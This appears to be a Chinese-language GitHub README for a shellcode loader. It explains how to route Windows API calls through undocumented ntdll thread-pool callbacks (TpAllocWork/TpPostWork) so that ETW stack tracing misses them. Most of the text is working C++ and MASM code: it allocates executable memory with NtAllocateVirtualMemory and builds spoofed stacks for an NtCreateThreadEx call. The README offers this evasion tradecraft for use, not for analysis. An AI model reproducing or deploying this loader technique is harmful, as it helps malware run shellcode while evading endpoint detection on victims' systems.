



## 简介

通过ntdll的未公开函数，去自定义回调函数的堆栈来调用自己想调的api， 可以绕过etw检测。

参考的是国外的文章，该作者只有给一个NtAllocateVirtualMemory函数的实现， 而此项目实现了shellcode加载器完整的功能。

缺点：最后CreateThread函数之后的printf 和getchar函数无法执行，知道的大佬可以issues一下。


所需要用到的函数。

```
TpAllocWork()
TpPostWork()
TpReleaseWork()
```

## x64调用约定

x64 中只有1种调用约定，就是fastcall，也就是前4个参数由RCX,RDX,R8,R9传递，超过4个参数的部分由栈传递，参数从右往左依次入栈。其次就是栈上面依然为传参的四个寄存器保留了32位的栈空间，防止在函数中寄存器不够用的情况出现。且栈对齐值是16h。


## 回调函数

回调函数就是一个通过函数指针调用的函数。如果你把函数的指针（地址）作为参数传递给另一个函数，当这个指针被用来调用其所指向的函数时，我们就说这是回调函数。回调函数不是由该函数的实现方直接调用，而是在特定的事件或条件发生时由另外的一方调用的，用于对该事件或条件进行响应。

## TpAllocWork()

定义

```
TPALLOCWORK(PTP_WORK* ptpWrk, PTP_WORK_CALLBACK pfnwkCallback, PVOID OptionalArg, PTP_CALLBACK_ENVIRON CallbackEnvironment);
参数1： 返回标志
参数2： 回调函数地址
参数3： 回调的函数参数 这个参数是放到rdx里面的， 所以是回调函数的第二个参数rdx ， 回调函数的RCX是一个野值，需要在回调函数里面处理一下。 
参数4： 回调环境 填NULL 
```

其中的第二个参数即是一个函数指针，假如我们将该参数替换成指向 LoadLibraryA 函数的指针，那么函数 LoadLibraryA 就会作为一个回调函数传递给 TpAllocWork，而后通过调用 TpPostWork 来创建一个新的线程执行 TpAllocWork 中的保存的回调函数，此时，LoadLibraryA 函数的返回地址会指向 TpPostWork 函数。

## TpPostWork()

创建一个新的线程执行 TpAllocWork 中的保存的回调函数。

## TpReleaseWork()

不知道干啥的跟着调就是了

## 代码

用NtAllocateVirtualMemory这个函数举例

```
__kernel_entry NTSYSCALLAPI NTSTATUS NtAllocateVirtualMemory(
  [in]      HANDLE    ProcessHandle,	 //RCX
  [in, out] PVOID     *BaseAddress,		//RDX
  [in]      ULONG_PTR ZeroBits,			//R8
  [in, out] PSIZE_T   RegionSize,		//R9
  [in]      ULONG     AllocationType,   //栈
  [in]      ULONG     Protect			//栈
);
```

这里的asm文件需要vs联合编译， 环境配置

参考这个：https://github.com/clownfive/CppDevShellcode

或者去bin搜索：在 64 位 Visual Studio 项目中使用汇编


理论和前置知识有了 接下来看代码

```asm
;原版的代码是gcc单独编译的asm代码成obj， 现在改成了VS能联合编译的x64asm代码了
.code

WorkCallback proc
    mov rbx, rdx                ; rdx 就是结构体地址， 带有系统api所有参数和api地址的结构体 
    mov rax, [rbx]              ; 结构体第1个成员， api地址
    mov rcx, [rbx + 8h]        ; 结构体第2个成员， api的第1个参数 RCX
    mov rdx, [rbx + 10h]       ; 结构体第3个成员， api的第2个参数 RDX
    xor r8, r8                  ; api第3个参数， R8
    mov r9, [rbx + 18h]        ; 结构体第4个成员，api第4个参数， R9
    mov r10, [rbx + 20h]       ; 结构体第5个， api第6个参数， 栈上面先用R10 存一下
    mov [rsp+30h], r10         ; 吧R10 里面的api第6个参数放到栈上
    mov r10, 3000h             ; api第5个参数
    mov [rsp+28h], r10         ; 放到栈上
    jmp rax						;这样就构建好了一个完整的栈环境，只需要跳到api地址去执行函数就可以了

WorkCallback endp

end

```

```cpp
#include <windows.h>
#include <stdio.h>

typedef NTSTATUS(NTAPI* TPALLOCWORK)(PTP_WORK* ptpWrk, PTP_WORK_CALLBACK pfnwkCallback, PVOID OptionalArg, PTP_CALLBACK_ENVIRON CallbackEnvironment);
typedef VOID(NTAPI* TPPOSTWORK)(PTP_WORK);
typedef VOID(NTAPI* TPRELEASEWORK)(PTP_WORK);

//参数结构体
typedef struct _NTALLOCATEVIRTUALMEMORY_ARGS {
	UINT_PTR pNtAllocateVirtualMemory;   // pointer to NtAllocateVirtualMemory - rax
	HANDLE hProcess;                     // HANDLE ProcessHandle - rcx
	PVOID* address;                      // PVOID *BaseAddress - rdx; ULONG_PTR ZeroBits - 0 - r8
	PSIZE_T size;                        // PSIZE_T RegionSize - r9; ULONG AllocationType - MEM_RESERVE|MEM_COMMIT = 3000 - stack pointer
	ULONG permissions;                   // ULONG Protect - PAGE_EXECUTE_READ - 0x20 - stack pointer
} NTALLOCATEVIRTUALMEMORY_ARGS, * PNTALLOCATEVIRTUALMEMORY_ARGS;


EXTERN_C VOID WorkCallback(PTP_CALLBACK_INSTANCE Instance, PVOID Context, PTP_WORK Work); 

int main() {
	LPVOID allocatedAddress = NULL;
	SIZE_T allocatedsize = 0x1000;
	
    // 赋值需要调用函数的地址和参数的结构体
	NTALLOCATEVIRTUALMEMORY_ARGS ntAllocateVirtualMemoryArgs = { 0 };
	ntAllocateVirtualMemoryArgs.pNtAllocateVirtualMemory = (UINT_PTR)GetProcAddress(GetModuleHandleA("ntdll"), "NtAllocateVirtualMemory");
	ntAllocateVirtualMemoryArgs.hProcess = (HANDLE)-1;
	ntAllocateVirtualMemoryArgs.address = &allocatedAddress;
	ntAllocateVirtualMemoryArgs.size = &allocatedsize;
	ntAllocateVirtualMemoryArgs.permissions = PAGE_EXECUTE_READ;

	
    //过钩，拿这三个函数的地址
	FARPROC pTpAllocWork = GetProcAddress(GetModuleHandleA("ntdll"), "TpAllocWork");
	FARPROC pTpPostWork = GetProcAddress(GetModuleHandleA("ntdll"), "TpPostWork");
	FARPROC pTpReleaseWork = GetProcAddress(GetModuleHandleA("ntdll"), "TpReleaseWork");

    //转成函数指针去调用
	PTP_WORK WorkReturn = NULL;
	((TPALLOCWORK)pTpAllocWork)(&WorkReturn, (PTP_WORK_CALLBACK)WorkCallback, &ntAllocateVirtualMemoryArgs, NULL);
	((TPPOSTWORK)pTpPostWork)(WorkReturn);
	((TPRELEASEWORK)pTpReleaseWork)(WorkReturn);

	WaitForSingleObject((HANDLE)-1, 0x1000);
	printf("allocatedAddress: %p\n", allocatedAddress);
	getchar();

	return 0;
}
```


结果：  理论来说这个栈环境可以放9个参数



疑问：

```
为什么回调函数有3个参数， 而且汇编中并没有使用这三个参数，理论来说定义一个无参回调函数函数也可以
EXTERN_C VOID WorkCallback(PTP_CALLBACK_INSTANCE Instance, PVOID Context, PTP_WORK Work); 

```

解答：

```
TpAllocWork() 这个函数的第二个参数需要一个特定结构的函数、
就是下面这个样子的。
typedef VOID (NTAPI *PTP_WORK_CALLBACK)(
    _Inout_     PTP_CALLBACK_INSTANCE Instance,
    _Inout_opt_ PVOID                 Context,
    _Inout_     PTP_WORK              Work
    );
   
 所以回调函数就要定义成这个样子的
 EXTERN_C VOID WorkCallback(PTP_CALLBACK_INSTANCE Instance, PVOID Context, PTP_WORK Work); 
 即使这3个参数在回调函数里面没有使用， 否则会报错。
```


## 进阶篇

上文说到，TpAllocWork() 的回调函数的栈环境大概能放9个参数。

但是 NtCreateThreadEx() 这个函数的参数多达11个。已经超出了回调函数原本的栈环境， 那么改如何去构造这11个参数的栈环境呢？

```
EXTERN_C NTSTATUS NtCreateThreadEx(
	OUT PHANDLE ThreadHandle,
	IN ACCESS_MASK DesiredAccess,
	IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL,
	IN HANDLE ProcessHandle,
	IN PVOID StartRoutine,
	IN PVOID Argument OPTIONAL,
	IN ULONG CreateFlags,
	IN SIZE_T ZeroBits,
	IN SIZE_T StackSize,
	IN SIZE_T MaximumStackSize,
	IN PPS_ATTRIBUTE_LIST AttributeList OPTIONAL);
```

这是原版处理的栈环境

```
;原版的代码是gcc单独编译的asm代码成obj， 现在改成了VS能联合编译的x64asm代码了
.code

WorkCallback proc
    mov rbx, rdx                ; rdx 就是结构体地址， 带有系统api所有参数和api地址的结构体 
    mov rax, [rbx]              ; 结构体第1个成员， api地址
    mov rcx, [rbx + 8h]        ; 结构体第2个成员， api的第1个参数 RCX
    mov rdx, [rbx + 10h]       ; 结构体第3个成员， api的第2个参数 RDX
    xor r8, r8                  ; api第3个参数， R8
    mov r9, [rbx + 18h]        ; 结构体第4个成员，api第4个参数， R9
    mov r10, [rbx + 20h]       ; 结构体第5个， api第6个参数， 栈上面先用R10 存一下
    mov [rsp+30h], r10         ; 吧R10 里面的api第6个参数放到栈上
    mov r10, 3000h             ; api第5个参数
    mov [rsp+28h], r10         ; 放到栈上
    jmp rax						;这样就构建好了一个完整的栈环境，只需要跳到api地址去执行函数就可以了

WorkCallback endp

end
```

可以看到 这里去调用函数是把栈环境构造好了， 通过jmp rax 去调用api的。 jmp过去肯定是回不来的，那么我们就不能在jmp前面去执行抬栈的操作。

如果把jmp换成call 的话， 函数确实能够回到WorkCallback() 但是call的返回地址是在call下面一条汇编指令。 然而WorkCallback函数 jmp rax  之后是没有指令执行的，下一条指令在内存中就是CC指令。


那么思考一下： 在函数调用前如何抬栈，在函数返回之后如何平栈 。

现在让我们回顾一下函数调用是怎么样的。

1. 在iat表，或者 getprocaddress找到函数地址。
2. 构建栈环境。
3. call 函数地址。

微软系的函数调用在3的位置多了一步， 他call的不是函数地址，而是jmp 的命令。

call \[jmp函数地址\] --> jmp 函数真正地址 --> kernel32 或者ntdll 函数本体。

结合来看 这里的 WorkCallback函数 就相当于  jmp 函数真正地址。

所以，函数的返回地址应该在 RSP处。 

直接上代码

```
.code

WorkCallback proc
    mov rax, [rsp]			;拿原来的返回地址
    push rax                ;保存原来的返回地址
    sub rsp, 48h   ;抬栈
    mov rbx, rdx                ; backing up the struct as we are going to stomp rdx
    mov rax, [rbx]              ; NtAllocateVirtualMemory
    mov rcx, [rbx + 8h]        ; HANDLE ProcessHandle
    mov rdx, [rbx + 10h]       ; PVOID *BaseAddress
    xor r8, r8                  ; ULONG_PTR ZeroBits
    mov r9, [rbx + 18h]        ; PSIZE_T RegionSize
    mov r10, [rbx + 20h]       ; ULONG Protect
    ;mov [rsp+30h], r10         ; stack pointer for 6th arg
    mov [rsp+28h], r10         ;由于call会抬8字节的栈， 所以这里得减8字节
    mov r10, 3000h             ; ULONG AllocationType
    ;mov [rsp+28h], r10         ; stack pointer for 5th arg
    mov [rsp+20h], r10			;由于call会抬8字节的栈， 所以这里得减8字节
    ;jmp rax
    call rax                
    add rsp, 48h           ;平栈   这里如果是50h的话 下面两条汇编应该可以不要了。
    pop rax					;从栈顶弹出返回地址
    mov [rsp], rax          ;还原原来的栈顶返回值
    ret

WorkCallback endp

end
```

1. 先从原来的栈顶rsp处拿到返回地址。
2. 把返回地址push到 栈上。
3. 抬栈
4. 构建api 栈环境， 由于下面换成了call， 所以栈的参数偏移整体要减8h
5. call 调用函数， 函数调用完成之后会返回到call的下一条汇编指令位置。
6. 平栈
7. 还原RSP的返回地址
8. ret

小傲娇：  这里要是使用 sub rsp 开辟出来的栈空间的话。 是不用 push rsp 这一步的（push了之后，参数超过了抬栈的大小一样崩溃）， 不过呢破破烂烂的xx，就用这破破的代码吧。

64位的栈环境 必须能模16 否则会异常。 由于这里有push抬栈8字节 ， 后续抬栈就只能抬8的倍数。




这里构造一个NtCreateThreadEx的函数调用

```
WorkCallCreateThread proc
    mov rax, [rsp]
    push rax                    ;;保存原来的栈顶
    sub rsp, 58h   ;抬栈
    mov rbx, rdx                ; 结构体首地址
    mov rax, [rbx]              ; NtCreateThreadEx地址
    mov rcx, [rbx + 8h]        ; PHANDLE ThreadHandle
    mov rdx, [rbx + 10h]       ; 0x1FFFFF
    xor r8, r8                  ; NULL
    mov r9, [rbx + 18h]        ; ProcessHandle
    mov r10, [rbx + 20h]       
    mov [rsp+20h], r10          ; startAddress
    mov [rsp+28h], r8           ;参数6
    mov [rsp+30h], r8           ;参数7
    mov [rsp+38h], r8           ;参数8
    mov [rsp+40h], r8           ;参数9
    mov [rsp+48h], r8           ;参数10
    mov [rsp+50h], r8           ;参数11
    call rax
    add rsp, 58h
    pop rax
    mov [rsp], rax
    ret 
WorkCallCreateThread endp
```

结果 




参考链接：

https://xz.aliyun.com/t/12273?time__1311=mqmhD5YIoXxBqDudxUozDnQKGOKaODcWoD&alichlgref=https%3A%2F%2Fwww.bing.com%2F#toc-2

https://0xdarkvortex.dev/proxying-dll-loads-for-hiding-etwti-stack-tracing/

https://0xdarkvortex.dev/hiding-in-plainsight/


